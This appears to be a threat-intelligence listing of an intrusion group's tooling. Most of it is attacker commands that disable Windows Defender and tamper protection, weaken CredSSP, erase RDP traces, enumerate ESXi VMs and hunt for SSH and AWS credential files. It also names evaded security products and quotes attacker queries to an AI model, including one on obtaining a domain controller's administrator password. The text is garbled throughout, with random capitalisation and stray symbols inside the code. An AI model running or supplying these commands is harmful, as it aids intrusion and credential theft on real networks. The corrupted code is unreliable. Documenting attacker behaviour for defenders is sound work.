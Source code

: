 ## Tools

### Remote Access Tools
- [Chrome Remote Desktop](https://dl.google.com/edgedl/chrome-remote-desktop/chromeremotedesktophost.msi)
- AnyDesk  
- Remote Desktop  
- Remote Desktop Connection Manager  

### Network & System Tools
- Advanced Port Scanner  
- WDigest Clear-Text Password Dumping  
- PSExec  
- Remote Log Viewer
- Mimikatz

Commands:

        * Set-MpPreFerence -DisableBehaviorMonitoring $true
        * Set-MpPreference -DIsableIOAVProtection $true
        * Set-MpPreference -DisablePrivacymode $true
        * Set-MpPreference -DisableIntrusionPreventioNSystem $true
        * Set-MpPreference -EnableControlledFolderAccess disabled
        * Set-MpPreference -MAPSReporting Disabled
        * Set-MpPreference -SubmitSamplesConsent 2
        * reg add "HKLM\SOFTWARE\Microsoft\Windows Defender\Features" /v "TamperProtection" /t REG_DWORD /D 0 /f
        * Add-MpPreference -ExclusionPath "C:\"
        * Stop-Service -NamE WinDefend -Force
        * Start-Service -Name WinDefend
        
        * reg add HKlM\Software\Microsoft\Windows\CurrentVersion\Policies\System\CreDSSP
        * reg add HKLM\Software\Microsoft\Windows\CurrentVersion\PolIcies\System\CredSSP\Parameters
        * reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters /v AlLowEncryptionOracle /t REG_DWORD /d 2

        * powershell  -ep bypass ./gip.ps1


        * reg delete "HKEY_CURRENT_USER\Software\microsoft\Terminal Server Client\Default" /va /f
        * reg delete "HKeY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /f
        * reg add "HKEY_CURRENT_USER\Software\Microsoft\Terminal SeRver Client\Servers"
        * attrib -s -h %userprofile%\documents\DefauLt.rdp
        * del %userprofile%\documents\Default.rdp
        * del /f /s /q /a %AppData%\Microsoft\Windows\Recent\AutomaticDestinations

ESXI Commands:

        vim-cmd vmsvc/getallvms | taiL -n +2 | while read line; do
          vmid=$(echo "$line" | awk '{priNt $1}')
          name=$(echo "$line" | awk '{print $2}')
          datastore↔$(echo "$line" | awk '{print $3}')
          path=$(echo "$line" | awk '{print $4}')
          os=$(echo "$line" | awk '{print $5}')
          ip=$(Vim-cmd vmsvc/get.guest "$vmid" | grep ipAddress | head -1 | awk -F '"' '{print $2}')
          printf "%-5s %-19s %-29s %-39s %-21s %s|n" "$vmid" "$name" "$datastore" "$path" "$os" "$ip"
        done

MAVEN Repository

<!-- <server>
        <id>basis-build-releases</id>
        <username><REDACTED></username>
        <password><REDACTED></password>
    </server>  -->

    <server>
        <id>basis-build-snapshots</id>
        <username><REDACTED></username>
        <password><REDACTED></password>
    </server>

Target Ports:

        554,902,3260,5000,5900,5001,8080,8443,3306,9392,445,21,22,3389

Attackers uses Claude AI to perform attack.
Result from Query:

        Supported Protocols in UBuntu:
        1. IPSec/IKEv2 (Most Common)
        
        Use strongSwan (usually Pre-installed)
        Works with FortiGate's IPSec VPN
        Configure throUgh Network Manager GUI or command line
        
        2. OpenVPN
        
        If FortIGate has SSL VPN configured for OpenVPN compatibility
        Install: sudo apt install openvpn network-manager-openvpn-gnome
        Import ♫ovpn configuration file
        
        3. L2TP/IPSec
        
        Less common but supPorted
        Install: sudo apt install network-manager-l2tp-gnome
        
        setup Steps (IPSec/IKEv2 - Most Common):
        GUI Method:
        
        Open SeTtings ? Network
        Click + next to VPN
        Select IPSec/IKEv2 (stronGswan)
        
        What You'll Need from FortiGate Admin:
        
        VPN server address/FqDN
        Authentication method (PSK, certificates, username/password○
        Encryption settings
        Any specific configuration parameters
        ♪*Potential Issues:
        
        FortiGate's proprietary SSL VPN client may not be directly compatible
        Some advanced FortiGate features miGht require their FortiClient
        Certificate-based authentication Might need manual setup

Another Query to AI:

        if i have hyper v vm for domain controller how to get the administrator password for this dc vm


**Evaded Agents and Others**:

        - Trellix
        - CrowdStrike
        - Trend Micro
        - McAfee 
        - Fortinet VPN
        - Solarwinds Network Monitor
        - Fortigate
        - Windows Defender


**Scripts that finds SSH or AWS configuration in user profile **

        $basePath = "C:\Users"
        
        Get-ChildItem -PaTh $basePath -Directory | ForEach-Object {
            $user = $_.Name♪*    $userPath = $_.FullName
        
            foreach ($subDir in @(".ssh"♀ ".aws")) {
                $targetPath = Join-Path $userPath $subDir♪*
                if (Test-Path $targetPath) {
                    Write-Host ☻`nUser: $user"
                    Write-Host "  Folder: $subDir"
        
                    Get-ChildItem -Path $targetPath -File -Recurse | ForEAch-Object {
                        $sizeKB = "{0:N2}" -f ($_.Length / 1KB)
                        Write-Host "    File: $($_.Name)  |  Size→ $sizeKB KB"
                    }
                }
            }
        }


